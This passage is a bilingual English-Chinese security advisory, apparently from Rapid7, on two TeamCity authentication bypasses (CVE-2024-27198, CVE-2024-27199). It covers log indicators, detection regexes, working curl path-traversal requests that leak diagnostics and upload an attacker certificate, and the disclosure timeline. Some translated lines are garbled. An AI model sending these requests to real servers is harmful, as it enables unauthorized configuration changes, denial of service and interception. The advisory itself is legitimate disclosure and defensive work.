在上面的示例中，攻击者利用该漏洞访问 REST API 并创建新的管理员访问令牌。这样，这个日志文件现在包含一个条目，详细说明了在调用 `ModelAndView.setViewName` 之后处理的 URL。请注意，此记录的 URL 是重写的 URL，与攻击者请求的 URL 不同。我们可以看到 URL 包含字符串 `;.jsp` 以及指示漏洞的查询参数 `jsp=` 。注意，攻击者可以在 `.jsp` 部分之前包括任意字符，例如 `;XXX.jsp` ，并且可以存在其他查询参数，并且以任何顺序，例如 `foo=XXX&jsp=` 。考虑到这一点，一个更复杂的记录恶意请求的示例是：

```less
27-Feb-2024 07:15:45.191 WARNING [TC: 07:15:45 Processing REST request; http-nio-80-exec-5] com.sun.jersey.spi.container.servlet.WebComponent.filterFormParameters A servlet request, to the URI http://192.168.86.50/app/rest/users/id:1/tokens/wo4qEmUZ;O.jsp?WkBR=OcPj9HbdUcKxH3O&pKLaohp7=d0jMHTumGred&jsp=/app/rest/users/id%3a1/tokens/wo4qEmUZ%3bO.jsp&ja7U2Bd=nZLi6Ni, contains form parameters in the request body but the request body has been consumed by the servlet or a servlet filter accessing the request parameters. Only resource methods using @FormParam will work as expected. Resource methods consuming the request body by other means will not work as expected.
```

A suitable regular expression to match the rewritten URI in the `teamcity-javaLogging` log file would be `;\S*\.jsp\?\S*jsp=` while the regular expression `\/\S*\?\S*jsp=\S*;\.jsp` will match against both the rewritten URI and the attacker's original URI (Although it is unknown where the original URI will be logged to).  
匹配 `teamcity-javaLogging` 日志文件中重写的 URI 的合适正则表达式是 `;\S*\.jsp\?\S*jsp=` ，而正则表达式 `\/\S*\?\S*jsp=\S*;\.jsp` 将匹配重写的 URI 和攻击者的原始 URI（尽管不知道原始 URI 将被记录到哪里）。

If the attacker has leveraged the vulnerability to create an access token, the token may have been deleted. Both the `teamcity-server.log` and the `teamcity-activities.log` will contain the below line to indicate this. We can see the token name being deleted `2vrflIqo` (A random string chosen by the attacker) corresponds to the token name that was created, as shown in the warning message in the `teamcity-javaLogging` log file.  
如果攻击者利用该漏洞创建访问令牌，则该令牌可能已被删除。 `teamcity-server.log` 和 `teamcity-activities.log` 都将包含下面的行来指示这一点。我们可以看到被删除的令牌名称 `2vrflIqo` （攻击者选择的随机字符串）与创建的令牌名称相对应，如 `teamcity-javaLogging` 日志文件中的警告消息所示。

```csharp
[2024-02-26 07:11:25,702]   INFO - s.buildServer.ACTIVITIES.AUDIT - delete_token_for_user: Deleted token "2vrflIqo" for user "user with id=1" by "user with id=1"
```

##### Malicious Plugin Upload 恶意插件上传

If an attacker uploaded a malicious plugin in order to achieve arbitrary code execution, both the `teamcity-server.log` and the `teamcity-activities.log` may contain the following lines, indicating a plugin was uploaded and subsequently deleted in quick succession, and authenticated with the same user account as that of the initial access token creation (e.g. ID 1).  
如果攻击者上传恶意插件以实现任意代码执行，则 `teamcity-server.log` 和 `teamcity-activities.log` 都可能包含以下行，指示插件被上传并随后被快速连续删除，并且使用与初始访问令牌创建相同的用户帐户进行身份验证（例如 ID 1）。

```csharp
[2024-02-26 07:11:13,304]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_uploaded: Plugin "WYyVNA6r" was updated by "user with id=1" with comment "Plugin was uploaded to C:\ProgramData\JetBrains\TeamCity\plugins\WYyVNA6r.zip"
[2024-02-26 07:11:24,506]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_disable: Plugin "WYyVNA6r" was disabled by "user with id=1"
[2024-02-26 07:11:25,683]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_deleted: Plugin "WYyVNA6r" was deleted by "user with id=1" with comment "Plugin was deleted from C:\ProgramData\JetBrains\TeamCity\plugins\WYyVNA6r.zip"
```

The malicious plugin uploaded by the attacker may have artifacts left in the TeamCity Catalina folder, e.g. `C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_WYyVNA6r\` on Windows or `/opt/TeamCity/work/Catalina/localhost/ROOT/TC_147512_WYyVNA6r/` on Linux. The plugin name `WYyVNA6r` has formed part of the folder name `TC_147512_WYyVNA6r`. The number `147512` is the build number of the TeamCity server.  
攻击者上传的恶意插件可能在 TeamCity 卡塔利纳文件夹中留下了工件，例如 Windows 上的 `C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_WYyVNA6r\` 或 Linux 上的 `/opt/TeamCity/work/Catalina/localhost/ROOT/TC_147512_WYyVNA6r/` 。插件名称 `WYyVNA6r` 已构成文件夹名称 `TC_147512_WYyVNA6r` 的一部分。编号 `147512` 是 TeamCity 服务器的内部版本号。

There may be plugin artifacts remaining in the webapps plugin folder, e.g. `C:\TeamCity\webapps\ROOT\plugins\WYyVNA6r\` on Windows or `/opt/TeamCity/webapps/ROOT/plugins/WYyVNA6r/` on Linux.  
webapps plugin 文件夹中可能还有插件构件，例如 Windows 上的 `C:\TeamCity\webapps\ROOT\plugins\WYyVNA6r\` 或 Linux 上的 `/opt/TeamCity/webapps/ROOT/plugins/WYyVNA6r/` 。

There may be artifacts remaining in the TeamCity data directory, for example `C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\WYyVNA6r\` on Windows, or `/home/teamcity/.BuildServer/system/caches/plugins.unpacked/WYyVNA6r/` on Linux.  
TeamCity 数据目录中可能仍有工件，例如 Windows 上的 `C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\WYyVNA6r\` 或 Linux 上的 `/home/teamcity/.BuildServer/system/caches/plugins.unpacked/WYyVNA6r/` 。

A plugin must be disabled before it can be deleted. Disabling a plugin leaves a permanent entry in the `disabled-plugins.xml` configuration file (e.g. `C:\ProgramData\JetBrains\TeamCity\config\disabled-plugins.xml` on Windows):  
必须禁用插件才能将其删除。禁用插件会在 `disabled-plugins.xml` 配置文件中留下一个永久条目（例如 Windows 上的 `C:\ProgramData\JetBrains\TeamCity\config\disabled-plugins.xml` ）：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<disabled-plugins>

  <disabled-plugin name="WYyVNA6r" />

</disabled-plugins>
```

The attacker may choose the name of both the access token they create, and the malicious plugin they upload. The example above used the random string `2vrflIqo` for the access token, and `WYyVNA6r` for the plugin. The attacker may have successfully deleted all artifacts from their malicious plugin.  
攻击者可以选择他们创建的访问令牌和他们上传的恶意插件的名称。上面的例子使用随机字符串 `2vrflIqo` 作为访问令牌， `WYyVNA6r` 作为插件。攻击者可能已成功删除其恶意插件中的所有工件。

The TeamCity administration console has an Audit page that will display activity that has occurred on the server. The deletion of an access token, and the uploading and deletion of a plugin will be captured in the audit log, for example:  
TeamCity 管理控制台有一个审计页面，该页面将显示服务器上发生的活动。访问令牌的删除以及插件的上传和删除将在审计日志中捕获，例如：  


This audit log is stored in the internal database data file `buildserver.data` (e.g. `C:\ProgramData\JetBrains\TeamCity\system\buildserver.data` on Windows or `/home/teamcity/.BuildServer/system/buildserver.data` on Linux).  
该审核日志存储在内部数据库数据文件 `buildserver.data` 中（例如，Windows 上的 `C:\ProgramData\JetBrains\TeamCity\system\buildserver.data` 或 Linux 上的 `/home/teamcity/.BuildServer/system/buildserver.data` ）。

##### Administrator Account Creation  
管理员帐户创建

To identify unexpected user accounts that may have been created, inspect the TeamCity administration console’s Audit page for newly created accounts.  
要识别可能已创建的意外用户帐户，请检查 TeamCity 管理控制台的“审核”页面以查找新创建的帐户。  


Both the `teamcity-server.log` and the `teamcity-activities.log` may contain entries indicating a new user account has been created. The information logged is not enough to determine if the created user account is malicious or benign.  
`teamcity-server.log` 和 `teamcity-activities.log` 都可以包含指示已创建新用户帐户的条目。记录的信息不足以确定创建的用户帐户是恶意的还是良性的。

```sql
[2024-02-26 07:45:06,962]   INFO - tbrains.buildServer.ACTIVITIES - New user created: user with id=23
[2024-02-26 07:45:06,962]   INFO - s.buildServer.ACTIVITIES.AUDIT - user_create: User "user with id=23" was created by "user with id=23"
```

### CVE-2024-27199 电话：+86-21 -27199

#### Overview 概述

We have also identified a second authentication bypass vulnerability in the TeamCity web server. This authentication bypass allows for a limited number of authenticated endpoints to be reached without authentication. An unauthenticated attacker can leverage this vulnerability to both modify a limited number of system settings on the server, as well as disclose a limited amount of sensitive information from the server.  
我们还发现 TeamCity Web 服务器中存在第二个绕过身份验证的漏洞。此绕过身份验证允许在不进行身份验证的情况下访问有限数量的已验证端点。未经身份验证的攻击者可以利用此漏洞修改服务器上数量有限的系统设置，并从服务器中泄露数量有限的敏感信息。

#### Analysis 分析

Several paths have been identified that are vulnerable to a path traversal issue that allows a limited number of authenticated endpoints to be successfully reached by an unauthenticated attacker. These paths include, but may not be limited to:  
已发现多条路径易受路径遍历问题的攻击，该问题允许未经身份验证的攻击者成功访问有限数量的已验证端点。这些途径包括但不限于：

-   `/res/`
-   `/update/`
-   `/.well-known/acme-challenge/`

It was discovered that by leveraging the above paths, an attacker can use double dot path segments to traverse to an alternative endpoint, and no authentication checks will be enforced. We were able to successfully reach a limited number of JSP pages which leaked information, and several servlet endpoints that both leaked information and allowed for modification of system settings. These endpoints were:  
我们发现，通过利用上述路径，攻击者可以使用双点路径段遍历到替代端点，并且不会强制执行身份验证检查。我们成功地访问了数量有限的泄漏信息的 JSP 页面，以及几个泄漏信息并允许修改系统设置的 servlet 端点。这些终点为：

-   `/app/availableRunners`
-   `/app/https/settings/setPort`
-   `/app/https/settings/certificateInfo`
-   `/app/https/settings/defaultHttpsPort`
-   `/app/https/settings/fetchFromAcme`
-   `/app/https/settings/removeCertificate`
-   `/app/https/settings/uploadCertificate`
-   `/app/https/settings/termsOfService`
-   `/app/https/settings/triggerAcmeChallenge`
-   `/app/https/settings/cancelAcmeChallenge`
-   `/app/https/settings/getAcmeOrder`
-   `/app/https/settings/setRedirectStrategy`
-   `/app/pipeline`
-   `/app/oauth/space/createBuild.html`

For example, an unauthenticated attacker should not be able to reach the /admin/diagnostic.jsp endpoint, as seen below:  
例如，未经身份验证的攻击者应该无法访问/admin/diagnostic. jsp 端点，如下所示：

```makefile
C:\Users\sfewer>curl -ik --path-as-is http://172.29.228.65:8111/admin/diagnostic.jsp
HTTP/1.1 401
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
Cache-Control: no-store
Content-Type: text/plain;charset=UTF-8
Transfer-Encoding: chunked
Date: Thu, 15 Feb 2024 13:00:40 GMT

Authentication required
To login manually go to "/login.html" page
```

However, by using the path `/res/../admin/diagnostic.jsp`, an unauthenticated attacker can successfully reach this endpoint, disclosing some information about the TeamCity installation. Note, the output below was edited for brevity.  
但是，通过使用路径 `/res/../admin/diagnostic.jsp` ，未经身份验证的攻击者可以成功到达此端点，从而泄露有关 TeamCity 安装的一些信息。注意，下面的输出是为了简洁而编辑的。

```bash
C:\Users\sfewer>curl -ik --path-as-is http://172.29.228.65:8111/res/../admin/diagnostic.jsp
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER

...snip...

          <div>Java version: 17.0.7</div>
          <div>Java VM info: OpenJDK 64-Bit Server VM</div>
          <div>Java Home path: c:\TeamCity\jre</div>

            <div>Server: Apache Tomcat/9.0.83</div>

          <div>JVM arguments:
            <pre style="white-space: pre-wrap;">--add-opens=jdk.management/com.sun.management.internal=ALL-UNNAMED -XX:+IgnoreUnrecognizedVMOptions -XX:ReservedCodeCacheSize=640M --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED -Djava.util.logging.config.file=c:\TeamCity\bin\..\conf\logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -agentlib:jdwp=transport=dt_socket,server=y,address=4444,suspend=n -Xmx1024m -Xrs -Dteamcity.configuration.path=../conf/teamcity-startup.properties -Dlog4j2.configurationFile=file:../conf/teamcity-server-log4j.xml -Dteamcity_logs=c:\TeamCity\bin\..\logs -Dignore.endorsed.dirs= -Dcatalina.base=c:\TeamCity\bin\.. -Dcatalina.home=c:\TeamCity\bin\.. -Djava.io.tmpdir=c:\TeamCity\bin\..\temp </pre>
          </div>
```

A request to the endpoint `/.well-known/acme-challenge/../../admin/diagnostic.jsp` or `/update/../admin/diagnostic.jsp` will also achieve the same results.  
对端点 `/.well-known/acme-challenge/../../admin/diagnostic.jsp` 或 `/update/../admin/diagnostic.jsp` 的请求也将获得相同的结果。

Another interesting endpoint to target is the `/app/https/settings/uploadCertificate` endpoint. This allows an unauthenticated attacker to upload a new HTTPS certificate of the attacker’s choosing to the target TeamCity server, as well as change the port number the HTTPS service listens on. For example, we can generate a self-signed certificate with the following commands:  
另一个有趣的目标端点是 `/app/https/settings/uploadCertificate` 端点。这允许未经身份验证的攻击者将攻击者选择的新 HTTPS 证书上传到目标 TeamCity 服务器，并更改 HTTPS 服务侦听的端口号。例如，我们可以使用以下命令生成自签名证书：

```vbnet
C:\Users\sfewer\Desktop>openssl ecparam -name prime256v1 -genkey -noout -out private-eckey.pem

C:\Users\sfewer\Desktop>openssl ec -in private-eckey.pem -pubout -out public-key.pem
read EC key
writing EC key

C:\Users\sfewer\Desktop>openssl req -new -x509 -key private-eckey.pem -out cert.pem -days 360
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:HaxorState
Locality Name (eg, city) []:HaxorCity
Organization Name (eg, company) [Internet Widgits Pty Ltd]:HaxorOrganization
Organizational Unit Name (eg, section) []:HaxorUnit
Common Name (e.g. server FQDN or YOUR name) []:target.server.com
Email Address []:

C:\Users\sfewer\Desktop>openssl pkcs8 -topk8 -nocrypt -in private-eckey.pem -out hax.key
```

An unauthenticated attacker can perform a POST request with a path of `/res/../app/https/settings/uploadCertificate` in order to upload a new HTTPS certificate.  
未经身份验证的攻击者可以使用 `/res/../app/https/settings/uploadCertificate` 路径执行 POST 请求，以便上传新的 HTTPS 证书。

```yaml
C:\Users\Administrator\Desktop>curl -vk --path-as-is http://172.29.228.65:8111/res/../app/https/settings/uploadCertificate -X POST -H "Accept: application/json" -F certificate=@hax.pem -F key=@hax.key -F port=4141
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 172.29.228.65:8111...
* Connected to 172.29.228.65 (172.29.228.65) port 8111 (#0)
> POST /res/../app/https/settings/uploadCertificate HTTP/1.1
> Host: 172.29.228.65:8111
> User-Agent: curl/7.83.1
> Accept: application/json
> Content-Length: 1591
> Content-Type: multipart/form-data; boundary=------------------------cdb2a7dd5322fcf4
>
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200
< X-Frame-Options: sameorigin
< Strict-Transport-Security: max-age=31536000;
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Referrer-Policy: origin-when-cross-origin
< mixed-content: noupgrade
< TeamCity-Node-Id: MAIN_SERVER
< Content-Type: application/json
< Content-Length: 0
< Date: Thu, 15 Feb 2024 14:06:02 GMT
<
* Connection #0 to host 172.29.228.65 left intact
```

If we log into the TeamCity server, we can verify the HTTPS certificate and port number have been modified.  
如果我们登录 TeamCity 服务器，我们可以验证 HTTPS 证书和端口号是否已被修改。  


An attacker could perform a denial of service against the TeamCity server by either changing the HTTPS port number to a value not expected by clients, or by uploading a certificate that will fail client side validation. Alternatively, an attacker with a suitable position on the network may be able to perform either eavesdropping or a man-in-the-middle attack on client connections, if the certificate the attacker uploads (and has a private key for) will be trusted by the clients.  
攻击者可以通过将 HTTPS 端口号更改为客户端不期望的值，或通过上传将使客户端验证失败的证书，对 TeamCity 服务器执行拒绝服务。或者，如果攻击者上传的证书（并具有私钥）将受到客户端的信任，则在网络上具有适当位置的攻击者可能能够对客户端连接执行窃听或中间人攻击。

## Rapid7 customers Rapid 7 客户

InsightVM and Nexpose customers can assess their exposure to CVE-2024-27198 and CVE-2024-27199 with authenticated vulnerability checks available in the March 4 content release.  
InsightVM 和 Nexpose 客户可以通过 3 月 4 日发布的内容中提供的经过身份验证的漏洞检查来评估其对 CVE-2024-27198 和 CVE-2024-27199 的暴露。

InsightIDR and Managed Detection and Response customers have existing detection coverage through Rapid7's expansive library of detection rules. Rapid7 recommends installing the Insight Agent on all applicable hosts to ensure visibility into suspicious processes and proper detection coverage. Below is a non-exhaustive list of detections deployed and alerting on activity related to these vulnerabilities:  
InsightIDR 和托管检测和响应客户通过 Rapid 7 广泛的检测规则库拥有现有的检测覆盖范围。Rapid 7 建议在所有适用的主机上安装 Insight Agent，以确保对可疑进程的可见性和适当的检测范围。以下是部署的检测和与这些漏洞相关的活动警报的非详尽列表：

-   Suspicious Web Request - JetBrains TeamCity CVE-2024-27198 Exploitation  
    可疑 Web 请求 - JetBrains TeamCity CVE-2024-27198 漏洞利用
-   Suspicious Web Request - JetBrains TeamCity CVE-2024-27199 Exploitation  
    可疑 Web 请求 - JetBrains TeamCity CVE-2024-27199 漏洞利用

Rapid7 Labs has experimental Sigma rules [available here](https://github.com/rapid7/Rapid7-Labs/tree/main/Sigma).  
Rapid 7 Labs 在这里提供了实验性的 Sigma 规则。

## Timeline 时间轴

-   **February 15, 2024:** Rapid7 makes initial contact with JetBrains via email.  
    2024 年 2 月 15 日：Rapid 7 通过电子邮件与 JetBrains 进行初步联系。
-   **February 19, 2024:** Rapid7 makes a second contact attempt to JetBrains via email. JetBrains acknowledges outreach.  
    2024 年 2 月 19 日：Rapid 7 通过电子邮件第二次尝试与 JetBrains 联系。JetBrains 承认外联。
-   **February 20, 2024:** Rapid7 provides JetBrains with a technical analysis of the issues; JetBrains confirms they were able to reproduce the issues the same day.  
    2024 年 2 月 20 日：Rapid 7 向 JetBrains 提供了问题的技术分析; JetBrains 确认他们能够在同一天重现这些问题。
-   **February 21, 2024:** JetBrains reserves CVE-2024-27198 and CVE-2024-27199. JetBrains suggests releasing patches privately before a public disclosure of the issues. Rapid7 responds, emphasizing the importance of coordinated disclosure and our stance against [silently patching](https://www.rapid7.com/blog/post/2022/06/06/the-hidden-harm-of-silent-patches/) vulnerabilities.  
    2024 年 2 月 21 日：JetBrains 保留 CVE-2024-27198 和 CVE-2024-27199。JetBrains 建议在公开披露问题之前私下发布补丁。Rapid 7 回应，强调协调披露的重要性以及我们反对默默修补漏洞的立场。
-   **February 22, 2024:** JetBrains requests additional information on what Rapid7 considers to be silent patching.  
    2024 年 2 月 22 日：JetBrains 要求提供 Rapid 7 认为是静默修补的更多信息。
-   **February 23, 2024:** Rapid7 reiterates our [disclosure policy](https://www.rapid7.com/security/disclosure/), sends JetBrains our [material on silent patching](https://www.rapid7.com/blog/post/2022/06/06/the-hidden-harm-of-silent-patches/). Rapid7 requests additional information about the affected product version numbers and additional mitigation guidance.  
    2024 年 2 月 23 日：Rapid 7 重申了我们的披露政策，向 JetBrains 发送了关于静默修补的材料。Rapid 7 要求提供有关受影响产品版本号的其他信息和其他缓解指南。
-   **March 1, 2024:** Rapid7 reiterates the previous request for additional information about affected product versions and vendor mitigation guidance.  
    2024 年 3 月 1 日：Rapid 7 重申了之前的请求，要求提供有关受影响产品版本和供应商缓解指南的更多信息。
-   **March 1, 2024:** JetBrains confirms which CVEs will be assigned to the vulnerabilities. JetBrains says they are “still investigating the issue, its root cause, and the affected versions” and that they hope to have updates for Rapid7 “next week.”  
    2024 年 3 月 1 日：JetBrains 确认将为漏洞分配哪些 CVE。JetBrains 表示，他们“仍在调查这个问题，其根本原因和受影响的版本”，他们希望“下周”能对 Rapid7 进行更新。
-   **March 4, 2024:** Rapid7 notes that JetBrains [has published a blog](https://blog.jetbrains.com/teamcity/2024/03/teamcity-2023-11-4-is-out/) announcing the release of TeamCity 2023.11.4. After looking at the release, Rapid7 confirms that JetBrains has patched the vulnerabilities. Rapid7 contacts JetBrains expressing concern that a patch was released without notifying or coordinating with our team, and without publishing advisories for the security issues. *Note: In a private email on March 5, JetBrains requested that Rapid7 update the vulnerability disclosure timeline in this blog to reflect that security advisories were available soon after TeamCity 2023.11.4 was released. JetBrains told Rapid7 that they did not include security information in their initial release blog because they were already publishing a [separate blog](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/) on the security issues. Notably, timelines are usually agreed upon and concerns addressed pre-publication as part of a coordinated vulnerability disclosure.*  
    2024 年 3 月 4 日：Rapid7 注意到 JetBrains 发布了一篇博客，宣布 TeamCity 2023.11.4 的发布。在查看了发布版本后，Rapid7 确认 JetBrains 已经修补了漏洞。Rapid7 联系了 JetBrains，表示担心在没有通知我们团队或与我们团队协调的情况下发布了补丁，并且没有发布安全问题的说明。注意事项：在 3 月 5 日的一封私人电子邮件中，JetBrains 要求 Rapid7 更新此博客中的漏洞披露时间轴，以反映 TeamCity 2023.11.4 发布后不久就可以使用安全漏洞。JetBrains 告诉 Rapid7，他们没有在最初发布的博客中包含安全信息，因为他们已经发布了一个关于安全问题的单独博客。值得注意的是，作为协调一致的脆弱性披露的一部分，通常在出版前商定时间表并解决关切问题。  
    **March 4, 2024:** Rapid7 reiterates our [vulnerability disclosure policy](https://www.rapid7.com/security/disclosure/), which stipulates: “If Rapid7 becomes aware that an update was made generally available after reporting the issue to the responsible organization, including [silent patches](https://www.rapid7.com/blog/post/2022/06/06/the-hidden-harm-of-silent-patches/) which tend to hijack CVD norms, Rapid7 will aim to publish vulnerability details **within 24 hours**.” Rapid7 also asks whether JetBrains is planning on publishing an advisory with CVE information.  
    2024 年 3 月 4 日：Rapid7 重申了我们的漏洞披露政策，该政策规定：“如果 Rapid7 在向负责组织报告问题后意识到更新已普遍可用，包括倾向于劫持 CVD 规范的静默补丁，Rapid7 将在 24 小时内发布漏洞详细信息。Rapid7 还询问 JetBrains 是否计划发布包含 CVE 信息的咨询。
-   **March 4, 2024:** JetBrains [publishes a blog](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/) on the security issues (CVE-2024-27198 and CVE-2024-27199). JetBrains later responds indicating they have published an advisory with CVEs, and CVEs are also included in release notes. JetBrains does not respond to Rapid7 on the uncoordinated disclosure.  
    2024 年 3 月 4 日：JetBrains 发布了关于安全问题的博客（CVE-2024-27198 和 CVE-2024-27199）。JetBrains 后来回应说，他们已经发布了一个关于 CVE 的建议，并且 CVE 也包含在发行说明中。JetBrains 没有就未经协调的披露回应 Rapid 7。
-   **March 4, 2024:** This disclosure.  
    2024 年 3 月 4 日：披露。

## Updates 更新

**March 5, 2024:** Updated with detection information for InsightIDR and Rapid7 MDR customers; information also added on availability of experimental [Sigma rules](https://github.com/rapid7/Rapid7-Labs/tree/main/Sigma).  
2024 年 3 月 5 日：更新了 InsightIDR 和 Rapid 7 MDR 客户的检测信息;还添加了有关实验性 Sigma 规则可用性的信息。

**March 5, 2023:** JetBrains has published an additional blog post on their disclosure of these vulnerabilities; in the [blog post](https://blog.jetbrains.com/teamcity/2024/03/our-approach-addressing-recently-discovered-vulnerabilities-in-teamcity-on-premises/) they indicate that they intentionally kept Rapid7 out of the loop on disclosure.  
2023 年 3 月 5 日：JetBrains 发布了关于他们披露这些漏洞的额外博客文章;在博客文章中，他们表示他们故意将 Rapid 7 排除在披露之外。

**March 5, 2024:** In a private email on March 5, JetBrains requested that Rapid7 change the vulnerability disclosure timeline in this blog to reflect that security advisories were available soon after TeamCity 2023.11.4 was released. JetBrains told Rapid7 that they did not include security information in their initial release blog because they were already publishing a [separate blog](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/) on the security issues. Notably, timelines are usually agreed upon and concerns addressed pre-publication as part of a coordinated vulnerability disclosure.  
2024 年 3 月 5 日：在 3 月 5 日的一封私人电子邮件中，JetBrains 要求 Rapid 7 更改此博客中的漏洞披露时间轴，以反映 TeamCity 2023.11.4 发布后不久即可提供安全漏洞。JetBrains 告诉 Rapid 7，他们没有在最初发布的博客中包含安全信息，因为他们已经发布了一个关于安全问题的单独博客。值得注意的是，作为协调一致的脆弱性披露的一部分，通常在出版前商定时间表并解决关切问题。

***Note:*** *When Rapid7 asked why the TeamCity release blog displayed a publication date of March 3, JetBrains indicated that their blog sets the publication date client-side in the browser via a date function, but when it converts the date, it always uses an hour of “3” UTC, or 3 AM UTC. According to their team, this is the reason the original TeamCity release [blog](https://blog.jetbrains.com/teamcity/2024/03/teamcity-2023-11-4-is-out/) looks like it was published on March 3 instead of March 4 when viewed by users in North America.*  
注意：当 Rapid7 询问为什么 TeamCity 发布博客显示的发布日期为 3 月 3 日时，JetBrains 表示他们的博客通过日期函数在浏览器中设置发布日期客户端，但当它转换日期时，它总是使用“3”UTC 小时，或 3 AM UTC。根据他们的团队，这就是为什么最初的 TeamCity 发布博客看起来像是在 3 月 3 日而不是 3 月 4 日发布的。
